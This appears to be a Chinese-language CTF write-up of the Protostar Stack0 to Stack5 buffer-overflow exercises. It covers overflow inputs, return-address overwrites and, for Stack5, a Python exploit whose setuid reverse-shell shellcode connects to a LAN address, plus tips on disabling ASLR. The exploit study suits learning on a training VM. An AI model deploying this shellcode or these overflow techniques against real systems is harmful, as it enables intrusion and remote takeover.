 ```yaml
---
layout: post
title: Protostar WriteUp
catagories: [ctf-execrise]
tags: [ctf, writeup, protostar]
---
```


> 堆、栈、格式化字符串漏洞利用学习


##Stack0

`gets()`函数不检查输入长度是否已溢出，所以输入超过buffer的长度，自然会覆盖到栈上的其它变量，
而`Modified`变量是紧跟着`buffer[]`的，因此被改写。

```
$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
you have changed the 'modified' variable
$ 
```

##Stack1

这一题要求modified的变量值为`0x61626364`. 因为数据是小端表示的，因此传给modifed的字符串应该是`"dcba"`.

```
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
$ 
```

##Stack2

因为`os.environ`改过的环境变量只在这个进程内部有效，进程外部无效，但其子进程是继承的父进程的环境变量，所以可以用`subprocess.Popen`来运行stack2

```python
import os
import subprocess
os.environ["GREENIE"]="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + "\x0a\x0d\x0a\x0d"
#print os.environ["GREENIE"]

cmd = "/opt/protostar/bin/stack2"
subprocess.Popen(cmd, close_fds=True, stderr=subprocess.PIPE, shell=True)
```

```
$ python ss.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


$ you have correctly modified the variable
```

##Stack3

`objdump -d stack3`，拿到win()的地址`0x08048424`

构造输入：

```
$ python -c "print 'A'*64 + '\x24\x84\x04\x08'"|./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
$ 
```

##Stack4

拿到win()的地址`080483f4`

因为有对齐，原来的栈顶`0xbffffc48`变成了`0xbffffc40`

eip在ebp的下方

因此，应填充的padd为64+8+4,下接win的地址

```python
python -c "print 'A'*64 + 'B'*8 +'C'*4 + '\xf4\x83\x04\x08'"
```

```
$  python -c "print 'A'*64 + 'B'*8 +'C'*4 + '\xf4\x83\x04\x08'"|./stack4
code flow successfully changed
Segmentation fault
```

##Stack5

几个技巧：

1. nasm与ndisasm很强大，一个汇编编译，一个反汇编
2. 调试时关闭地址随机化`echo 0 >/proc/sys/kernel/randomize_va_space`
3. pwntools和msfconsole很强大，生成shellcode的话，msfconsole很全
4. core dump很有必要，因为gdb下和真实运行还是有很大差别的.`ulimit -c unlimited`和`echo "/tmp/core-%e-%p-%t" > /proc/sys/kernel/core_pattern`

标准的栈溢出，试过n种shellcode,明显msfconsole生成的更灵活，exploit-db太多，不知如何选择
`http://shell-storm.org/shellcode/, http://www.exploit-db.com/`

```python
#!/usr/bin/env python

#shell = '31c9f7e96a01fe0c24682f2f7368682f62696eb00b89e3cd80'.decode("hex")

#shell = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" +\
        #"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00" +\
        #"\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd" +\
        #"\x80"

#buf =  ""
#buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
#buf += "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0"
#buf += "\xa8\x01\x70\x68\x02\x00\x04\xd2\x89\xe1\xb0\x66\x50"
#buf += "\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73"
#buf += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
#buf += "\x0b\xcd\x80"


buf =  ""
buf += "\x31\xc9\x31\xdb\xf7\xe3\xb0\xa4\xcd\x80\x31\xdb\x6a"
buf += "\x17\x58\xcd\x80\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02"
buf += "\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49"
buf += "\x79\xf9\x68\xc0\xa8\x01\x70\x68\x02\x00\x04\xd2\x89"
buf += "\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52"
buf += "\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52"
buf += "\x53\x89\xe1\xb0\x0b\xcd\x80"


#buf =  ""
#buf += "\x31\xc0\x31\xdb\xb0\x06\xcd\x80"
#buf += "\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"
#buf += "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

#shellcode = "\x90"*(76-len(buf))+buf+ "\x40\xfc\xff\xbf" //放在ebp前, 效果不好
shellcode = "A"*76 +"\x74\xfe\xff\xbf" + "\x90"*16 +  buf //放在ebp后

fd = open("shellcode", "w")
fd.write(shellcode)
```


